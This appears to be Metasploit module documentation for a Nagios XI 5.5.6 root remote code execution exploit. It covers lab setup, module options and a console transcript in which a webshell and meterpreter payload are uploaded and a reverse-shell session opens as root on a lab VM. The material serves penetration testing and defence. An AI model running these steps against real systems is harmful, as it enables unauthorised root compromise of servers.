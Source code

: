 # Vulnerable Application

Nagios XI 5.5.6 Root Remote Code Execution

The exploit works as follows:
- A local HTTPS server is setup. When it is reached, this server responds with a payload.
- By crafting a malicious request, we make the target host send a request to our HTTPS server. Therefore, the local HTTPS server must be reachable from outside your private network (except if the Nagios server is in the same network as yours obviously), this is what the RSRVHOST and RSRVPORT options are for. The malicious request allows for file upload. A PHP webshell and a meterpreter executable are uploaded.
- A command is executed thanks to the webshell. This command elevates privileges and run the meterpreter executable, giving us a meterpreter session.

# Creating A Testing Environment

- Install a Ubuntu Linux LTS (I used 18.04 LTS for my tests) in a VM.
- Download Nagios XI 5.5.6 from the official website (https://www.nagios.com/downloads/nagios-xi/older-releases/).
- Follow the official instructions to install it on your Ubuntu VM (https://assets.nagios.com/downloads/nagiosxi/docs/Installing-Nagios-XI-Manually-on-Linux.pdf).

# Verification Steps

`use exploit/linux/http/nagios_xi_root_rce`
`set RHOSTS [IP]`
`set RSRVHOST [IP]`
`exploit`
A meterpreter session should have been opened successfully and you should be root

# Options

## RSRVHOST

IP at which your local HTTPS can be reached. Most of the time it will be a public IP (e.g. your router IP if you have port forwarding).

## RSRVPORT

Port that will forward to your local HTTPS server.

## SRVHOST

IP of your local HTTPS server (must be a local IP).

## SRVPORT

Port to listen to for your local HTTPS server.

# Scenarios

## Nagios 5.5.6 on Ubuntu 18.04 LTS

```
msf5 > use exploit/linux/http/nagios_xi_root_rce
msf5 exploit(linux/http/nagios_xi_root_rce) > set RHOSTS 192.168.0.57
RHOSTS => 192.168.0.57
msf5 exploit(linux/http/nagios_xi_root_rce) > set RSRVHOST 192.168.0.50
RSRVHOST => 192.168.0.50
msf5 exploit(linux/http/nagios_xi_root_rce) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.0.50:4444
[*] Using URL: https://0.0.0.0:8080/yXgRPrO9L8zIt
[*] Local IP: https://192.168.0.50:8080/yXgRPrO9L8zIt
[*] Server started.
[*] webshell.php uploaded with success!
[*] Using URL: https://0.0.0.0:8080/oDRVURAY82YcT
[*] Local IP: https://192.168.0.50:8080/oDRVURAY82YcT
[*] Server started.
[*] meterpreter uploaded with success!
[*] Sending stage (985320 bytes) to 192.168.0.57
[*] Meterpreter session 1 opened (192.168.0.50:4444 -> 192.168.0.57:33162) at 2019-06-16 23:44:34 +0100
[+] Deleted /usr/local/nagvis/share/webshell.php
[+] Deleted /usr/local/nagvis/share/meterpreter
[!] This exploit may require manual cleanup of '/var/tmp/shell.nse' on the target
[*] Server stopped.

msf5 exploit(linux/http/nagios_xi_root_rce) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 192.168.0.57
OS           : Ubuntu 18.04 (Linux 4.18.0-21-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter >
```
